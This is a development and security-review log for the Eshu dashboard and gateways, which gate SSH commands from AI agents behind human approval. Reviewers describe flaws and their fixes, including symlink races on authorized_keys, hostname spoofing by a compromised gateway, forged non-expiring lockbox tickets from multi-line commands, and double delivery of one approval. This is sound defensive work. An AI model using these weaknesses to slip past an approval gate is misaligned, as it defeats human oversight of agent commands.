    * the window claim uses `-H @<(gateway_header)` (it runs inside the
      gateway) and sends the window token in a stdin body. Keep the
      path-token endpoint for old gateways until the fleet is updated.
  * Tests: the same argv assertions the gateway tests use, for both
    scripts. Also: no `GATEWAY_TOKEN` in the `systemd-run` arguments.
* **BJ3 (should):** `approved_windows.sh` logs `token=$ESHU_WINDOW_TOKEN`
  to syslog on the fail-open path. Log the first 8 characters, or a hash.
* **Rebase onto master:** the poll line must keep both changes. That is
  the digits-only `WC` from `fix/poller-ticket-poll` and
  `gateway_header | curl ... -H @-`. Regenerate the installers after the
  rebase.

**BJ2/BJ3 implemented (2026-11-12).**

* **Window claim.** `approved_windows.sh` posts to
  `/api/approved-windows/execute` (no token in the URL) with
  `{"window_token": …}` on stdin (`--data-binary @-`) and the gateway
  header from `-H @<(printf …)`, so neither token is in curl's argv. The
  dashboard keeps the old path-token route for gateways installed before
  this change; both routes call one `_window_execute`, so the claim,
  IP check, counter and audit are identical. The window token is still
  charset-validated by the gateway's prefix check, so it is safe in JSON.
* **Fleet Run.** The runner no longer takes the token as an argument: it
  reads `/etc/eshu-token` (root 0600) and passes it to python in
  `ESHU_FLEET_TOKEN` (environment, root-only in `/proc`), not argv. The
  poller's `systemd-run` ExecStart no longer contains it. The runner
  accepts the old poller's argument shape (a token has no dot, an IP does)
  for the one update cycle before the installer replaces the poller, but
  never uses the argument. A missing token file refuses the run.
* **BJ3.** Every window log line uses `${ESHU_WINDOW_TOKEN:0:8}`, never the
  whole token.
* **Tests.** `test_gateway_script.py`: the window claim's argv holds
  neither token, the body carries `window_token`, the header still
  arrives, and the script no longer logs the full token.
  `test_window_read.py`: the body-token claim works and burns once; the
  path form still works; the script has no path token. `test_poller.py`:
  the fleet unit's `systemd-run` args contain no token and still carry the
  IP and both file paths. `tests/test_bj2_fleet_argv.py`: the runner's
  python argv has no token (environment does), the old argument shape
  still runs, and a missing token file refuses.
* The installers are regenerated with the rebased poller (`WC` and
  `-H @-` both present) and the new fleet call.

`bash scripts/verify.sh`: `2901 passed, 26 skipped, 7 warnings in 604.17s
(0:10:04)` (after the stack rebase onto `fix/lockbox-bi`; the branch carries
only the BE3 changes now, and the installers were regenerated from this tree).

#### Security re-read (2026-11-12, at `46bc261`): BJ2 and BJ3 approved

* The window claim sends the gateway token as `-H @<(...)` and the window
  token in a stdin JSON body, to a new `/api/approved-windows/execute`.
  The path-token route stays for old gateways, and both share
  `_window_execute`.
* The fleet runner reads `/etc/eshu-token` as root, and the poller no
  longer passes the token to `systemd-run`. Python gets it through the
  environment, not argv. The shell variable is not exported, so the fleet
  command does not inherit it.
* The logs show only the first 8 characters of a window token.
* After the rebase, the poll line keeps both the digits-only `WC` and
  `-H @-`. The three installer copies are identical.
* **Nit:** the runner tells the old argument shape from the new one by
  "`$2` contains a dot". An IPv6 `TARGET_IP` has no dot, so it would be
  read as the old shape and the fields would shift. Use
  `case "$2" in *.*|*:*)`; a token cannot contain either character.
  Argument counts don't work for this, because the six-argument old-old
  shape and the new shape are the same length.
* Still to come: the stack onto `fix/lockbox-bi`, because of the conflict
  in the generated installers. I'll re-check the copies and the poll line
  there.

### BE4 — refresh the dashboard key on update · branch `fix/update-dashboard-key`

An update today never writes `authorized_keys`, so F12's dashboard key reaches a gateway only on reinstall. The security reviewer's conditions:
* add or replace **only** the `eshu-dashboard` line; every other line stays byte-identical;
* copy `from=` from the existing Eshu lines, and change nothing if they cannot be read;
* the key must be a single `ssh-ed25519` line, and an empty key leaves the existing line alone;
* run only after a 200 registration (BE1's `REGISTER_OK`);
* make the temp file with `mktemp`, and refuse a symlinked `.ssh` or `authorized_keys`. The install path's fixed `.tmp` name has the same symlink problem today, so fix it in the same change.

**Implementer notes (BE4).** `--update` now refreshes the dashboard line,
after `REGISTER_OK=1` only:

* `ak_from` reads the `from=` of the existing `eshu-dashboard` line, else of
  the `eshu-gateway-key` line, so the refreshed line keeps the operator's
  restriction; with none it has no `from=`.
* `ak_replace` writes through `mktemp "$dir/.authorized_keys.XXXXXX"` in the
  same directory and `mv`s it into place. A symlinked `.ssh` or
  `authorized_keys` is refused with a message and the file is left alone; an
  unreadable file is refused too.
* The key must match `^ssh-ed25519 [A-Za-z0-9+/=]+( …)?$` on one line. An
  empty or malformed key changes nothing (with a warning for the malformed
  case).
* Only lines ending ` eshu-dashboard` are removed; every other line keeps its
  bytes and its order.
* The install path uses the same `ak_replace`; its fixed
  `authorized_keys.tmp` name is gone. The uninstall/legacy-cleanup paths (the
  `grep -v` writes) use a new `eshu_safe_replace` with a private temp in the
  target's directory, refusing a symlinked target and keeping the owner and
  mode.
* Tests run the real block as the BE1 tests do: update replaces only the
  dashboard line and keeps the gateway line byte-identical; `from=` comes
  from the dashboard line, or from the gateway line when there is none; no
  200, an empty key and three malformed keys change nothing; a symlinked
  `authorized_keys` and a symlinked `.ssh` are refused; a planted
  `authorized_keys.tmp` symlink is not followed; `eshu_safe_replace` refuses
  a symlinked target and preserves a normal file's mode.

`bash scripts/verify.sh`: `2842 passed, 26 skipped, 7 warnings in 581.63s
(0:09:41)`.

**Reviewer notes (security reviewer, 2026-11-12, at `b5008d5`).** Approved
once BH1 is in. The rest meets the conditions:
* only lines ending ` eshu-dashboard` are replaced;
* the gateway line stays byte-identical;
* only after `REGISTER_OK=1`;
* a single `ssh-ed25519` line, with no options possible (options come only
  before the key type, and the comment cannot hold a control character or a
  newline);
* an empty key changes nothing;
* `mktemp` in the target's directory, and symlinks are refused;
* `eshu_safe_replace` for the root-owned cleanup paths.

* **BH1 (must): no `from=` source means no change, not an unrestricted line.**
  * The condition was "copy `from=` from the existing Eshu lines, and change
    nothing if they cannot be read". The implementation writes a line with
    no `from=` in two cases:
    * the existing lines carry a `from=` that `ak_from` cannot parse (it
      reads only a line that *starts* with `from="`, so a hand-edited line
      with `from=` after `command=` is missed);
    * there is no Eshu line at all, such as an `mcp_only` gateway installed
      before F12. Its `ALLOWED_SSH_FROM` is not recorded anywhere the update
      can see.
  * In both cases the dashboard key would work from anywhere, while the
    operator may have restricted the gateway.
  * Fix:
    * if any line containing `/usr/local/bin/eshu-gateway.sh` holds `from=`
      and `ak_from` returned nothing, change nothing and warn;
    * if no Eshu line exists, change nothing and print "reinstall to add
      the dashboard key".
  * Tests: a `from=` after `command=` refuses; an empty file (or one with
    only foreign lines) refuses; the existing cases still pass.
* **BH2 (should, later): do the user-side write as the user.**
  * `ak_replace` checks for a symlinked `.ssh`, then calls `mktemp`, `mv`
    and `chmod 700` on it as root. The gateway user owns `/home/$USER`, so
    between the check and the write it can swap `.ssh` for a symlink.
    `mv` and `chmod` then act on the target as root: for example, replacing
    root's `authorized_keys` or changing a system directory's mode.
  * This needs code execution as that user, which its `restrict`ed forced
    command does not give, so it is not a must.
  * The clean fix is to run the `mktemp`/`cat`/`mv` through
    `runuser -u "$USER" --`, so a symlink can only reach what the user could
    already write. Do it in the next installer change.

**BH1 implemented (2026-11-12).** The update branch now reads the first Eshu
line (`grep -m1 '/usr/local/bin/eshu-gateway.sh'`). If that line holds
`from=` and `ak_from` returned nothing, it refuses and warns; if there is no
Eshu line, it refuses with "reinstall to add the dashboard key"; a line that
genuinely has no `from=` still gets an unrestricted dashboard line, as
before. The symlink refusal now runs before the content is read (so a
symlinked `authorized_keys` keeps its own REFUSED message). `ak_from` ends
`|| true` so a SIGPIPE from `head` cannot abort the installer under
`set -o pipefail`. Tests: `from=` after `command=` refused and byte-identical;
empty file and foreign-lines-only refused; a no-`from=` gateway line still
written unrestricted; the BE4 cases unchanged. BH2 is left for the next
installer change, as the note says.

`bash scripts/verify.sh`: `2855 passed, 26 skipped, 7 warnings in 578.58s
(0:09:38)`. All four installers regenerated.

#### Security re-read (2026-11-12, at `357130b`): BH1 is nearly there; BJ1 is a must

* The case with no Eshu line now leaves the file alone with a note, and
  the tests cover it. Good.
* The `|| true` on the `ak_from` pipe and the symlink checks are good.
* **BJ1 (must):** the "unreadable `from=`" check looks only at the first
  Eshu line (`grep -m1`).
  * Suppose the first Eshu line has no `from=` and a later one has a
    `from=` that `ak_from` cannot read. For example, the gateway-key line
    is unrestricted while the operator restricted the dashboard line by
    hand, with its options in another order.
  * `AK_DASH_FROM` is then empty, the check passes, and the dashboard line
    is rewritten with no `from=`. The restriction the operator added is
    gone.
  * A related case: when only the dashboard line's `from=` fails to parse,
    the fallback copies the gateway line's `from=`, which may be wider.
  * Rule: if any Eshu line has a `from=` that is not in the parseable
    leading form, change nothing. For example, refuse when
    `grep '/usr/local/bin/eshu-gateway.sh' | grep -v '^from="[^"]*",' |
    grep -q 'from='` matches.
  * Test: an unrestricted gateway-key line first, then a dashboard line
    with a non-leading `from=`. The file must stay unchanged.
* BH2 is still a should, for later.

**BJ1 implemented (2026-11-12).** The check is over every Eshu line now: it
collects the lines containing `/usr/local/bin/eshu-gateway.sh`, drops the ones
whose `from=` is in the leading `from="...,` form, and if any remaining line
contains `from=` the file is left alone with the warning. That covers both
the "first line unrestricted, later dashboard line restricted by hand" case
and the fallback that copied a wider gateway `from=` when the dashboard
line's own was unreadable. `grep -q` is deliberately not used in the
pipeline: under `set -o pipefail` its early exit gives the upstream `grep`
SIGPIPE and the pipeline would report failure on a match. Tests:
`test_bj1_a_later_unreadable_from_also_refuses` (file byte-identical) and
`test_bj1_a_leading_from_on_every_line_still_updates`; the earlier BH1 tests
still pass. Installers regenerated.

`bash scripts/verify.sh`: `2895 passed, 26 skipped, 8 warnings in 598.20s
(0:09:58)` (after the stack rebase onto `fix/lockbox-bi`).

#### Security re-read (2026-11-12, at `cab1399`): BJ1 approved

* Every Eshu line is checked now. Any line whose `from=` is not in the
  leading `from="...",` form makes the update change nothing.
* That also covers the case where the dashboard line fails to parse and
  the gateway line's wider `from=` would have been copied.
* Leaving out `grep -q` is the right call under `pipefail`.
* BE4 can merge. BH2 (write as the user) is still a should, for later.

**BH2 implemented (2026-11-14, `fix/bh2-ak-user-write`, from `release/1.3-core`;
not in 1.3).**

* `ak_as_user` runs one command as `$USER`: `runuser -u "$USER" --` when
  util-linux provides it, otherwise `setpriv --reuid/--regid/--init-groups`,
  otherwise it refuses with a message and the file is left alone.
* `ak_replace` now does the whole user-side write inside that helper: `mkdir
  -p .ssh`, a `mktemp` in `.ssh`, `cat` of the new file from stdin, `chmod
  600`, `mv` onto `authorized_keys`, `chmod 700` on `.ssh`. Root only checks
  for a symlinked `.ssh`/`authorized_keys` first (the existing messages) and
  then drains stdin on failure. The inner script re-checks both symlinks, so
  a swap root could not see is at worst the user writing where the user
  could already write — the BH2 point.
* BQ2: the install path no longer runs `mkdir`, `chmod` or `chown` on
  `.ssh`/`authorized_keys` as root. The user-side script creates `.ssh` at
  700 and the file at 600, so a fresh install works (there is no root-owned
  `0700` directory any more) and no root `chmod` follows a swapped link.
  `ak_replace` refuses when `/home/$USER` itself is not owned by `$USER`;
  a home the user cannot write fails with REFUSED and nothing is changed.
* Tests (`tests/test_installer.py`): a `runuser` stub logs the call, and the
  update runs through `-u eshu-gateway --` and replaces the dashboard line; a
  failing user-side command leaves the file byte-identical and prints
  REFUSED; a source check pins the runuser form, the setpriv fallback and
  the inner symlink checks. The BE4/BH1/BJ1 suites run through the same
  `runuser` stub and still pass (64 in the file). All four installers were
  regenerated and are byte-identical.

`bash scripts/verify.sh`: `3031 passed, 27 skipped, 8 warnings in 639.10s
(0:10:39)` (3 more: the BH2 tests).

**BQ4 (2026-11-14, in the 1.4 gateway stack).** No script carries a baked
token any more:
* `eshu-gateway.sh`, `eshu-poller.sh` and `eshu-logger.sh` read
  `/etc/eshu-token` at the point of use (`eshu_token()`); the fleet runner
  already did (BJ2). A rotation therefore applies to the next call, even in
  a process that started before it.
* The installer substitutes no token into either script; it still writes
  `/etc/eshu-token` (0600 root:root) as the one copy.
* The poller's four `sed -i` rewrites are gone. Both re-register paths call
  one `write_token_file`: the candidate must match
  `^[A-Za-z0-9_-]{16,128}$`, then it is written through a `umask 077` temp
  with `chmod 600` and renamed; anything else leaves the old file and logs
  a refusal without the value.
* Compatibility: an update from an old baked-token install reads the file
  first and the old script's line as the fallback (the file exists on every
  installed gateway); the uninstaller reads the file too, with the same
  fallback. Tests: the file wins over a baked script, an old baked script
  still registers, the writer accepts a valid token and refuses an invalid
  one without a temp file or a log entry, and neither script has
  `GATEWAY_TOKEN=` or a token sed.

**BQ2 tests (2026-11-14).** A fresh install with no `.ssh` succeeds and the
directory is 700, owned by the user (the user-side `mkdir`). The install
block is checked for the absence of root `mkdir -p "/home/$USER/.ssh"`,
`chmod 700 "/home/$USER/.ssh"`, `chown -R` and `chmod 600 "$AK_FILE"`, while
the user-side `mkdir -p "$dir"`, `chmod 600 "$tmp"` and `chmod 700 "$dir"`
remain. A home the user cannot write (mode 0555, the same EACCES a root-owned
0700 home gives) refuses: no `.ssh`, nothing written, REFUSED, and the
install fails rather than falling back to root.

### GT1 — gateway token rotation · branch `feat/gateway-token-rotation` · design first

The dashboard has no rotate action today; the only way to rotate a token is to remove and re-enrol the gateway. Design:
* the dashboard mints the new token and delivers it over the gateway's authenticated update channel;
* the old token stays valid for a short grace period;
* the rotation writes an audit entry;
* the token is never shown in the UI.

The gateway side needs the security reviewer's sign-off.

---


## Fix — agent SSH hosts and mode (F12 follow-up) · branch `fix/agent-ssh-hosts` · dashboard · security read

### Reviewer notes (security reviewer, 2026-11-12, at `67a0b75`)

**Approved for deploy.** BF1 is a should for this branch; BF2 is a should
for later.

What I checked:
* **Keep-on-save.** `None` keeps the stored values, `[]` clears, and both go
  through the same `validate_policy`. Both callers of `set_agent_policy`
  (the policy PUT and the web-fetch sync) now keep the SSH fields, which was
  the bug.
* **Who can set the fields.** No agent-reachable path sets them. The only
  route is the session-authenticated PUT, and an MCP or agent token never
  reaches it.
* **Validation.** `_validate_ssh_hosts` refuses anything outside
  `[A-Za-z0-9_.:-]`, so `user@` and a leading `-o` cannot be written. The
  mode is limited to the three values.
* **Audit.** The audit row records a mode or host change.
* **UI escaping.** Gateway names are rendered through `esc`/`escJs`, and the
  "also kept" entries through `textContent`. Ticking a gateway stores its
  IP, not its hostname.

**BF1 (should, this branch): confirm `*`.** `*` is not "every gateway I
see now". It also covers every gateway enrolled later, and in `normal` mode
that means allowlisted commands run on all of them without a card.
* Ticking `*` opens a confirm that says exactly that.
* The agent row's summary shows "SSH any gateway" in the warning colour.
* A plain checkbox is fine for single gateways.

**BF2 (should, later F12 change): match host entries by IP, not by
self-reported hostname.**
* `host_allowed` also matches an entry against the gateway's `hostname`.
  That hostname is whatever the gateway last sent to `/api/register`.
* So a compromised gateway that re-registers under another gateway's name
  satisfies an agent's hostname entry for that other gateway. An agent
  limited to one host can then be pointed at the hostile one, and its
  commands go to the attacker.
* The new UI already writes IPs, which is the right direction. Next step:
  `host_allowed` matches IP entries only (or a hostname only when it is
  pinned at enrolment), and the modal offers to convert a kept hostname
  entry to its gateway's IP.

`bash scripts/verify.sh`: `2843 passed, 26 skipped, 7 warnings in 580.33s
(0:09:40)`.
#### Security re-read (2026-11-12, at `d40cc43`): BF2 approved

* `host_allowed` matches only `*` or the gateway's IP. The gateway's
  hostname is no longer used for a match. `ssh_exec` is the only caller,
  and nothing is relaxed.
* A hostname entry gets `host_not_allowed` with the conversion message,
  and the audit status is `hostname_entry_ignored`. The message shows the
  self-reported hostname back to the agent. That is fine, because it is
  only text.
* The modal offers to convert an entry only when exactly one current
  gateway has that hostname. The conversion goes through the operator's
  Save, and the arrow shows the target IP.
  * The mapping still trusts the hostname at the moment of conversion. If
    A is gone and B now uses A's name, the button offers B's IP.
  * The IP shown is the operator's check. Nothing more is needed.
* **Nit:** `agent-ssh-extra` moved from `textContent` to `innerHTML`, and
  `extra.join(', ')` is not escaped. Entries are charset-checked on write,
  so this is not exploitable today. Still, `esc()` it or build text nodes,
  so the rule does not depend on the validator.

#### Security re-read (2026-11-12, at `44375f3`): the nit is fixed; approved

The kept entries now go through `esc()`. BF2 can merge.

## Fix — poller ticket poll URL · branch `fix/poller-ticket-poll` · poller · security sign-off

**Security review (2026-11-12, at `f0affc7`): the fix is approved. It
makes the lockbox path live for the first time, and that path has two
musts (BI1, BI2) to land before the fleet update. The n8n-only retest can
go ahead without them.**

The fix is correct:
* `grep -c` alone, `|| true`, then a digits-only `case`. `WC` can only
  be a number, and the dashboard's `wc: int` refuses anything else anyway.
* The old bug only hit an empty windows file (`grep -c` exits 1 and
  prints 0). With one or more windows, the old line worked. That matches
  "one poller consumption ever".
* All three installer copies are byte-identical and carry the change. The
  template takes the poller through its placeholder.
* The curl stub now refuses whitespace in a URL, as real curl does, so a
  malformed URL fails the tests instead of passing them.

Lockbox review: the ticket format, the 90-second cleanup, the dashboard's
consume, and the gateway's claim-and-burn.

**BI1 (must, before the fleet): no raw line break may reach
`/var/run/eshu.tickets`, and a ticket timestamp may not be in the
future.**
* `ssh_exec` allows `\n` in a command (`CONTROL_ALLOWED`). `ticket_line`
  writes the command raw as the last field, and the poller appends the
  ticket with `echo`.
* An approved multi-line command therefore becomes several lockbox lines.
  Every line after the first has no `v2` tag, so it parses as an old
  `ts|cmd` line:
  * its timestamp and command come from the command text;
  * it has no agent, so an unsigned direct caller can claim it, which
    defeats M1's agent binding;
  * a future timestamp passes both the gateway's `now - T_TS <= 90` and
    the poller's cleanup, so the line never expires.
* The only safeguard is the human reading the multi-line card. That is
  not enough for a forged, non-expiring, unbound ticket.
* Fix, all of:
  * the dashboard never issues a lockbox line whose command contains CR
    or LF. Either refuse such a row on the poll path (deny it with an
    audit reason, as M1 does), or carry the command in a `v3` line as
    base64;
  * the poller drops a ticket containing CR or LF, as a second check;
  * the gateway and the poller's cleanup both treat a timestamp more than
    a few seconds in the future as invalid.
* Tests:
  * an approved two-line command yields no lockbox line, or exactly one
    line that decodes to the whole command;
  * a future-dated line is neither kept by the cleanup nor claimed.

**BI2 (must, before the fleet): one approval, one run.**
* **No lock on the gateway side.** Writes to the lockbox file come from
  three places, and none of them takes a lock:
  * the poller's cleanup (read, rewrite, `mv`);
  * its `echo >>` append;
  * the gateway's `claim_lockbox_ticket` and `remove_claimed_ticket`.

  Two gateway sessions with the same command can both read the line
  before either rewrites, so both run it. The poller's cleanup can also
  `mv` back a copy taken before a claim, which brings a burned ticket
  back for up to 90 seconds.

  Fix: hold `flock` on a lock file in the root-only `/run/eshu` around
  every read-modify-write and the append, in both scripts. Make the
  gateway's temp file with `mktemp -p /run/eshu`, so the `mv` is a
  rename on the same filesystem, not a copy out of `/tmp`.
* **Two delivery paths on the dashboard.**
  * `update_ticket_consumed_by_ip` does a `SELECT`, then an
    unconditional `UPDATE`.
  * `get_ticket_by_request_id` hands out a ticket for a row that is
    already `consumed`.

  So the poller and `/api/ticket/{id}` can both deliver the same
  approval. The interactive loop's `remove_claimed_ticket` does not
  close this: the poller's append can land after it. The second copy then
  waits in the lockbox for the next identical command.

  Fix:
  * both consumes use `... WHERE id = ? AND status = 'approved'` and
    deliver only when `rowcount == 1`;
  * `/api/ticket/{id}` stops issuing for `consumed`. The gateway's loop
    already handles `consumed` through the lockbox claim.
* Tests:
  * two concurrent claims of one line: exactly one runs;
  * a poll and an `/api/ticket` call on one approved row: exactly one gets
    the ticket;
  * a cleanup interleaved with a claim does not bring the line back.

**BI3 (should): a ticket can arrive already dead and still be recorded as
consumed.**
* The line's timestamp is the request's `created_at`. The gateway honours
  it for 90 seconds, and a pending card also lives 90 seconds.
* The poll path delivers an approved row until `expires_at + 60`, and the
  poller only polls every 30 seconds.
* So a card approved late in its life is marked `consumed` (with a
  `jit_consumed` audit row) when the line is already past 90 seconds. The
  gateway and the cleanup then drop it. This fails closed, but History
  and the audit log say "consumed" for a command that never ran, and the
  agent's re-run opens a fresh card.
* Fix: stamp the line with the time it is delivered, and stop delivering
  it once `expires_at` has passed (drop the 60-second grace on this
  path). An approval can then be used at most 90 seconds after delivery,
  and at most `ttl + 90` after the card was created.
* Expect this one in the n8n retest if an approval is slow.

Checked and fine:
* The v2 format: `v2` first, the command last, so a `|` inside the command
  survives. Agent names are limited to `[A-Za-z0-9_.:-]`, and session IDs
  are charset-checked, so neither can shift a field.
* An agent row is never issued in the old format (M1, on both paths).
* `ticket_allowed`: a signed caller claims only its own agent and
  session, and an unsigned caller only claims agent-less lines.
* The cleanup reads `$2` for v2 lines.
* The file stays root `0600`. The gateway runs it as root through its
  sudoers entry, and the environment scrub leaves `TMPDIR` unset.
* The dashboard checks the gateway token against the IP for `/api/poll`.

Rollout: merge, deploy the dashboard, update n8n only, and retest. That is
fine as planned. BI1 and BI2 land before the fleet update. I'd like to read
those diffs. BI3 can go with them or after.

**BI1–BI3 implemented (branch `fix/lockbox-bi`, from master after the X4/X5
merge).**

* **BI1 (line breaks).** Chosen: deny at poll time, not a v3 base64 line.
  Both consume paths (`update_ticket_consumed_by_ip` and
  `get_ticket_by_request_id`) refuse a command containing CR or LF with the
  same conditional `UPDATE ... WHERE id = ? AND status = 'approved'`, set it
  to `denied`, and record `jit_refused` with "the command contains a line
  break and cannot be one lockbox line". A denied row cannot become several
  lines later, and the agent sees a terminal state instead of a consumed row
  that never ran. The reason a v3 line was not needed: it would require the
  gateway, the poller and the dashboard to switch formats in lock-step on
  every gateway before the fleet update, while the refusal covers the same
  escape (an approved multi-line command) with no format change.
  The poller is the second check: a `ticket` string containing CR or LF is
  logged and not appended. Both scripts also drop a CR line, a non-numeric
  stamp, and a stamp more than 5 seconds in the future when they read the
  file (the gateway's claim and the poller's cleanup), so a future-dated
  forged line can neither be kept nor claimed.
* **BI2(a) (one run).** `flock` on `$ESHU_RUN_DIR/eshu.tickets.lock` around
  every read-modify-write: the gateway's claim and remove, the poller's
  `clean_tickets`, its append, and its startup removal. The gateway's temp
  file is `mktemp -p "$ESHU_RUN_DIR"` so the `mv` is a rename, not a copy
  out of `/tmp`. The poller reads the file *inside* the lock (`clean_tickets`
  is a function now), so a copy taken before a claim cannot be moved back.
  A host without `flock` (it ships with util-linux on every systemd host)
  fails closed: the gateway does not claim (the command goes through JIT)
  and the poller does not write the lockbox.
* **BI2(b) (one delivery).** Both consumes use
  `UPDATE ... SET status = 'consumed' ... WHERE id = ? AND status =
  'approved'` and deliver only when `rowcount == 1`; M1's deny is
  conditional the same way. `/api/ticket/{id}` reads `status = 'approved'`
  only, so a consumed row is never re-issued.
* **BI3 (live stamp).** `ticket_line` takes the delivery time (`ts`) and both
  consumers pass `now`; the poll path is `expires_at > now` with no 60-second
  grace. A late approval is delivered with a fresh stamp, so it can run; a
  row past its expiry is not marked consumed at all.
* **Tests.** `tests/test_lockbox_bi.py` (10): multi-line refused on both
  paths, with the audit row; a CR-only command refused; a v2 agent ticket
  refused with the line-break reason; poll-vs-by-id and three-poller races
  deliver exactly once; the stamp is delivery time; a 500-second-old
  approval still runs; a row 30 s past expiry is not consumed; the old
  `ticket_line` default. Gateway (`test_gateway_script.py`): a future-stamped
  line is neither kept nor claimed, a CR line is dropped, two concurrent
  claims of one ticket run once (marker written once), and the claim's lock
  and run-dir temp are pinned. Poller (`test_poller.py`): a line-breaking
  ticket from `/api/poll` is refused and logged; the extracted
  `clean_tickets` drops future, expired and CR lines and keeps a fresh one;
  a cleanup started before a claim cannot resurrect the claimed line.
* All four installers regenerated from template + gateway + poller.

`bash scripts/verify.sh`: `2878 passed, 26 skipped, 7 warnings in 595.35s
(0:09:55)`.

### Known flaky tests (reviewer list)

Tests that can fail on their own, recorded here so a red run is not chased as
a new regression. They are not weakened to make them pass.

* ~~`tests/test_f19_limits.py::test_the_time_limit_stops_the_command`~~ —
  fixed on `fix/flaky-f19-time-limit`. The race was the *marker*, not the
  test: `dashboard/eshu-gateway.sh` measured "how long did it run" from two
  `date +%s%N` (CLOCK_REALTIME) stamps, so an NTP/manual step between them
  made a real `timeout` stop look early — rc 124, `messages: []`, the exact
  "expected 'stopped after 5 s', got empty output". The measurement is
  monotonic now (`/proc/uptime`, 10 ms, `date` only as the fallback), pinned
  by `test_the_time_limit_marker_does_not_ride_on_the_wall_clock`, which
  moves the second stamp 3 s back. 50/50 consecutive passes alone, 10/10 in
  parallel.
* (The npm 401 retry and the audit-ordering flakes were made deterministic on
  `fix/flaky-tests`, approved and pending merge.)

#### Security review (2026-11-12, at `32ce1b0`): BI1–BI3 approved; no musts

* **BI1.** Both consume paths deny a CR/LF command. Each denial is
  conditional and writes a `jit_refused` row. The poller refuses a ticket
  that breaks a line. The gateway claim and the cleanup drop:
  * CR lines;
  * non-numeric stamps;
  * stamps more than 5 s ahead.

  Deny-at-poll with no v3 format is fine. The by-id path could never run
  a multi-line command anyway, because `parse_claim_body` reads one line,
  so the mismatch check refused it.
* **BI2.**
  * The gateway and the poller lock the same file, `/run/eshu/eshu.tickets.lock`.
  * Every read happens inside the lock, and so do the cleanup, the append
    and the startup `rm`.
  * With no `flock`, no write happens.
  * The gateway's temp file is in the run dir.
  * Both consumes are `status='approved'` with `rowcount == 1`, and
    `/api/ticket` no longer issues `consumed` rows.
  * `ESHU_RUN_DIR` cannot be set by the caller, because the gateway's
    environment scrub removes it.
* **BI3.** The ticket is stamped at delivery, and the poll path has no
  grace.
* The three installer copies are identical.

**BK1 (should): one expiry rule.**
* The poll path now stops at `expires_at`.
* `get_ticket_by_request_id` has no expiry check at all. It delivers an
  `approved` row until the sweep (`expire_stale_requests`) marks it
  abandoned at `expires_at + 60`, plus the sweep interval.
* `check_request` (`mcp_server.py`) also still reports `approved` until
  `+ 60`.
* Fix: give the by-id path, the sweep and `check_request` the same
  boundary as the poll path. An approval then has one lifetime whichever
  way it is fetched.
* If late approvals turn out to be too tight, extend `expires_at` when
  the card is approved, for example to `decided_at + 60`. Do not bring
  back a grace in one path only.

**BK2 (should): refuse CR/LF before a human sees the card.**
* Today the row is denied after the operator approved it, so the approval
  is wasted.
* `ssh_exec` (which lists `\n` in `CONTROL_ALLOWED`) and `/api/request`
  should refuse a CR/LF command up front, with a clear message. Keep the
  deny at consume as the second check.

**BK3 (should): `remove_claimed_ticket` now burns an unrelated approval.**
* With BI2, an approval is delivered exactly once: either by id or to the
  lockbox.
* After a by-id claim, or a `consumed` lockbox claim, the JIT path still
  calls `remove_claimed_ticket`. That removes a line for the same command
  and agent that belongs to a different approval.
* This fails closed, but it is wrong. Drop the call.

**BK4 (nit): close fd 9 after the ticket lock.**
* `tickets_unlock` releases the lock but leaves fd 9 open, so the
  approved command inherits a writable fd on the lock file.
* The command could `flock` it and stall every later claim.
* Close it with `exec 9>&-` in `tickets_unlock` and on the lock-failure
  return, as the nonce helper does.

**BK1–BK4 implemented (2026-11-13, `fix/lockbox-bi`).** No design change; the
four follow-ups are the ones above.

* **BK1 — one expiry rule.** `get_ticket_by_request_id` now selects
  `status='approved' AND expires_at > now`, so the by-id claim stops at the
  same instant as the per-IP poll. `expire_stale_requests` drops the `- 60`
  grace on the `approved` sweep, and `check_request` reports a row abandoned
  at `expires_at + 1` rather than `expires_at + 60`. Tests use a fixed clock
  at `expires_at - 1` (live) and `expires_at + 1` (refused/abandoned) for all
  three paths: `test_bk1_claim_by_id_refuses_a_row_past_expires_at`,
  `test_bk1_the_sweep_abandons_at_expires_at` and the `check_request` case in
  `tests/test_sessions.py`. An expired row is left `approved` until the sweep
  marks it `abandoned`; it is never delivered.
* **BK2 — refuse CR/LF up front.** `ssh_exec.command_problem` returns
  `multiline_command` before signing, before any SSH connection (newline left
  `CONTROL_ALLOWED`; tab stays). `/api/request` raises 400 with
  `multiline_command: the command contains a line break; send it as a single
  line.` straight after decoding, before the rate-limit/policy/plan/override
  paths and before `create_request`, so no row and no card exists. The
  gateway now prints a 400's `detail` instead of "unreachable". The consume
  time deny stays as the second check.
* **BK3 — no second removal.** The `remove_claimed_ticket` call (and the
  now-dead function) is gone from the JIT tail; `claim_lockbox_ticket` is the
  only remover. `test_bk3_two_approvals_of_the_same_command_each_run_once`
  leaves two live lines for one command and asserts both runs execute.
* **BK4 — no inherited lock.** `tickets_unlock` does `exec 9>&-` after
  `flock -u`, and the `flock -w 5` failure path closes it too, in both the
  gateway and the poller. `test_bk4_the_approved_command_does_not_inherit_the_ticket_lock`
  runs `find /proc/self/fd -maxdepth 1 -name 9` through a real lockbox claim
  and asserts the path is absent.

`bash scripts/verify.sh`: `2886 passed, 26 skipped, 8 warnings in 604.20s
(0:10:04)`.

## Release 1.3 core · branch `release/1.3-core` · **deployed 2026-11-14** at master `f0af7e7` · security read

**Security review (2026-11-14, at `ac41a70`): approved for the dashboard
deploy and the gateway-by-gateway fleet rollout. No musts.**

Checked on the integrated tree:
* **BK1.** One expiry rule. `get_ticket_by_request_id` needs
  `expires_at > now`. The sweep and `check_request` no longer allow the
  extra 60 seconds, and `find_live_request` uses the same boundary.
* **BK2.** `ssh_exec` refuses `multiline_command` before signing.
  `/api/request` returns 400 before any policy, plan, override or row. The
  gateway shows the 400's reason instead of "unreachable".
  * The 27 consumed multi-line JITs in history show why the up-front
    refusal is right. Since F12 they were approved and consumed without
    running.
* **BK3.** `remove_claimed_ticket` is gone.
* **BK4.** Both scripts close fd 9 in `tickets_unlock` and when the lock
  fails.
* **BK5.** Reuse requires a non-empty agent and a non-empty session. It
  runs after the refusals and right before a new pending row is created.
* **BE3.** The fleet runner's shape check uses `[.:]`. No gateway token is
  left in curl argv in the gateway, poller, window script or fleet runner.
  The poll line keeps the digits-only `WC` and `-H @-`.
* **BE4.** BJ1's every-line `from=` check is present.
* The three generated installer copies are byte-identical.
* **The `create_plan` merge.**
  * `superseded` keeps the row and sets `superseded_by`.
  * Check plans never supersede and are never superseded.
  * A superseded plan can't be decided (`_DECIDABLE_FROM`) or claimed
    (claims need `approved`).
  * `_end_child_plans` still ends a parent's check plans.

**BM1 (should): make both plan transitions conditional.**
